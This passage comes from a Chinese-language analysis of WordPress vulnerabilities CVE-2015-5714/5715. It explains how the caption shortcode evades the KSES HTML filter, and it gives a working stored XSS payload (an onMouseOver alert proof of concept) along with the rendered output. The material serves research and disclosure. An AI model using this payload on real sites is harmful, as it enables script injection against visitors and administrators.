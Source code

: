 因插入的内容包含完整且符合白名单规则的 HTML 标签，而简码 `[caption]`（[caption简码说明](http://codex.wordpress.org/Caption_Shortcode)） 并不包含在 "KSES" 检测的内容里，最后输出内容到前台时简码解析后会被渲染为：

```html
<p>TEST!!!<figure style="width: 1px;" class="wp-caption alignnone"><figcaption class="wp-caption-text"><a href="</figcaption></figure></a><a>xxxxxx</a></p>
```

![](/images/articles/2015-09-18-wordpress-vulnerability-analysis-cve-2015-5714_and_cve-2015-5715/2.png)

由于在 "KSES" 过滤检测时只关 HTML 标签，对简码并不进行检测，又因简码中属性都以 `KEY=VALUE` 的形式出现，用单引号`'`或者双引号`"`包裹值`Value`，因此在 `TEST!!![caption width="1" caption='<a href="' ">]</a><a>xxxxxx</a>` 这段内容中，简码 `caption` 有两个属性，分别为：

    width: 1
    caption: <a href="

而后半部分的 `<a href="' ">]</a><a>xxxxxx</a>` 又为正常的 HTML 标签闭合形式，因此并不会被 "KSES" 检测过滤后丢弃掉。最终在前台输出时，简码 `caption` 被解析，使得最后出现 `<a>` 标签中 `href` 属性值未闭合的情况。

因此利用前后处理的差异，可以构造出有利的 payload 形成 XSS：

```html
TEST!!![caption width="1" caption='<a href="' ">]</a><a href="http://onMouseOver='alert(1)'">Click me</a>
```
    
将上面 payload 作为文章内容发布，前端渲染出来的结果为：

```html
<p>TEST!!!<figure style="width: 1px;" class="wp-caption alignnone"><figcaption class="wp-caption-text"><a href="</figcaption></figure></a><a href="http://onMouseOver='alert(1)'">Click me</a></p>
```
